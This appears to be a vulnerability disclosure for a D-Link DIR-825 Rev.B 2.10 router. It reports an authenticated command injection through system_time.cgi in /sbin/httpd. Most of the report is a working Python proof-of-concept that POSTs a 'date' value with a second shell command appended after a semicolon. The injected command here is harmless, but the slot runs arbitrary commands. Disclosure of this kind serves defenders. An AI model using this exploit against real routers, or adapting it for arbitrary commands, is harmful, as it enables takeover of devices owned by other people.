

### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/system_time.cgi.
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'system_time.cgi'
   8 command = "20080523; echo 2 > /tmp/hello2"
   9
  10 payload = {
  11     "date": command,
  12     "html_response_return_page": "static_routing.asp",
  13 }
  14
  15 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 date-comm.py`

### Example output

